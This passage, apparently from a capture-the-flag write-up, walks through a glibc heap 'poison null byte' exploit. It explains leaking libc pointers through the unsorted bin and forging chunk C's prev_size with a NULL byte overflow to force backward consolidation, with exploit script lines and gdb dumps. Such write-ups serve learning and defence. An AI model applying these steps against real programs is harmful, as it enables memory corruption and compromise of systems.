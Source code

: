 * We don't want either of the chunks A or C to go into the tcache bins, as there is no consolidation in the tcache bins. The exploit relies on the fact that chunk C will consolidate backwards with chunks A and B provided we set up the heap correctly.

#### Step 3: **Prepare chunk A for consolidation later on**

* Free chunk A. This sends chunk A into the unsorted bin (as the 0x128 sized tcache bin is full), meaning a libc pointer pointing to the `main_arena` is placed into chunk A's `fd` and `bk` pointers:

```python
# Make chunk A go into unsorted bin
# This is important because we are consolidating chunk C back with both chunks A and B
# Meaning that unlink will be called with chunk A as it's second argument
# unlink has some security checks, one being that A's fd and bk must have valid pointers
# This free will put the pointers to `main_arena+0x58` into the fd and bk of A
free(0) # Chunk A
```

```c
gef➤  x/40gx 0x000055a7bc254250                          
0x55a7bc254250: 0x0000000000000000      0x0000000000000131 <- chunk A
0x55a7bc254260: 0x00007f7e28fbeca0      0x00007f7e28fbeca0 <- libc pointers into
0x55a7bc254270: 0x0000000000000000      0x0000000000000000    main_arena+0x58
...
```

* We do this free here in order to get some valid pointers inserted into A's `fd` and `bk` fields. This is important later because when we free chunk C and have it consolidate backwards with chunks A and B, there are some security checks that will ensure that chunk A's `fd` and `bk` pointers are valid. More information will be given below when chunk C is being freed.

* Using gdb, we can calculate the difference between the leaked pointers and the libc base now. This offset remains constant every time we run the program. This offset is found to be `0x3ebca0`.

#### Step 4: **Abuse the NULL byte overflow**

* Edit chunk B's contents to cause a NULL byte overflow into chunk C's size. This changes chunk C's total size (including metadata) from 0x121 to 0x100. Notice that the `PREV_INUSE` bit gets set to 0 in the process, due to the NULL byte overflow, which causes the chunk that is `prev_size` bytes before C to appear to be free when we free chunk C later on.

* In the process of doing the NULL byte overflow, we also set chunk C's `prev_size` field to 0x250. This causes the `prev_size` field to encompass both chunks A and B. Later when we free chunk C, the `unlink` macro is called using chunk A ***because*** of the fact that we set chunk C's `prev_size` such that it encompasses up to chunk A. This causes chunks A, B, and C to be consolidated into one large chunk, which is then put into the unsorted bin.

* The code for the unlink macro will be shown a bit further down.

```python
# Null byte overflow onto chunk C.
# C's size is now 0x100.
# C's prev_size is also set to 0x250
talk(1, 'B'*0x110 + p64(0x250))
```

```c
gef➤  x/80gx 0x55a7bc254380
0x55a7bc254380: 0x0000000000000130      0x0000000000000120 <- chunk B
0x55a7bc254390: 0x4242424242424242      0x4242424242424242
...
0x55a7bc254480: 0x4242424242424242      0x4242424242424242
0x55a7bc254490: 0x4242424242424242      0x4242424242424242
0x55a7bc2544a0: 0x0000000000000250      0x0000000000000100 <- prev_size 0x250 followed by chunk C size overwritten
0x55a7bc2544b0: 0x0000000000000000      0x0000000000000000
0x55a7bc2544c0: 0x0000000000000000      0x0000000000000000
```
